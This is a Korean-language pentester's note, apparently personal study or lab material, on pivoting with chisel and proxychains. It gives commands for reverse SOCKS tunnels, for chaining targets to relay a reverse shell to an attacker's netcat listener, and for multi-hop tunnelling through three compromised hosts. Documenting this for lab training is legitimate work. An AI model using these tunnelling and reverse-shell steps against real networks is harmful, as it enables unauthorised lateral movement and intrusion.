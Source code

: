 

Chisel
https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz



### [Reverse Pivot]
Kali에서 Target으로 요청을 보낼 때

```bash title="공격자 서버 (chisel server 열기)"
chisel server -p 8081 --reverse &
```


```bash title="공격자 Server의 /etc/proxychains4.conf 수정"
vim /etc/proxychains4.conf
```
![[Pasted image 20250708230909.png]]
맨 밑에다 추가
```text
socks5 127.0.0.1 1080
```



```bash title="Target server에 chisel client 실행하링"
# 연결된 동안에도 다른 작업해야하기 때문에 백그라운드로 실행
./chisel client 10.250.180.2:8081 R:socks &
```



```bash title="공격자 Server에서 proxychains로 명령어 실행"
proxychains -q curl 10.200.180.150
```
![[Pasted image 20250708231334.png]]



공격자 서버에서는 10.200.180.150 ip에 바로 접근 할 수 없음.
10.250.180.200 서버에서는 10.200.180.150 으로 접근할 수 있기에 터널링을 통해 공격자 서버에서 바로 접근 가능하도록 하는 것.








### [Local Pivot]

대상에서 트래픽을 받을 때 (리버스 쉘 붙일 때)


```bash title="공격자 Kali - chisel server"
chisel server -p 8000
```

```bash title="Target 1 - chisel client, server"
chisel client [kali ip]:8000 9000:127.0.0.1:9010

# Target 2에서 붙을 chisl server
chisel server -p 8001
```
Target 1 에서 9000번 포트를 열고 Target 1의 9000번 포트를 통한 트래픽은 kali에서 127.0.0.1:9010 으로 나가라.



```bash title="Target 2 - chisel client"
chisel client [Target 1 ip]:8001 9001:127.0.0.1:9000
```



```bash title="공격자 Kali 에서 포트 열고 대기"
rlwrap nc -lvnp 9010
```

```powershell title="Target 3 - Target 2로 트래픽 테스트"
Test-NetConnection [Target 1 ip] -Port 9001
```
Target 2의 9001번 포트로 트래픽을 전송 -> Target 2으로 들어온 트래픽을 Target1 로 전송 -> Target1로 들어온 트래픽을 Kali로 전송 -> Kali로 들어온 트래픽은 Kali의 9010 포트로 나가셈.




## [Multi-hop Pivoting]

대상으로 트래픽을 보낼 때

### [[Multi-hope pivoting diagram]]



```bash title="Attacer Kali"
chisel server -p 9001 --reverse
```

```plaintext title="/etc/proxychains4.conf"
# Target 개수에 맞춰줘야함

# 1번째 터널 입구
socks5 127.0.0.1 9999
# 2번째 터널 입구
socks5 127.0.0.1 8888
# 3번째 터널 입구
socks5 127.0.0.1 7777
```



Kali를 향한 `client`이자, Pivot 2를 위한 `server`.

```bash title="Target 1"
# Kali로 접속 (1번 터널 생성)
./chisel client <Kali_IP>:9001 R:9999:socks

# Pivot 2의 접속을 대기
./chisel server -p 9002 --reverse
```



Target 1을 향한 `client`이자, Pivot 3을 위한 `server`.

```bash title="Target 2"
# Pivot 1로 접속 (2번 터널 생성)
./chisel client <Target1_IP>:9002 R:8888:socks

# Pivot 3의 접속을 대기 (새로운 서버 실행)
./chisel server -p 9003 --reverse
```



Target 2를 향한 `client`.

```bash title="Target 3"
# Pivot 2로 접속 (3번 터널 생성)
./chisel client <Target2_IP>:9003 R:7777:socks
```



터널링 
```bash title="Attacker Kali"
# Target 3로 curl 명령 날릴 수 있음
proxychains -q curl <Target3_IP>
```

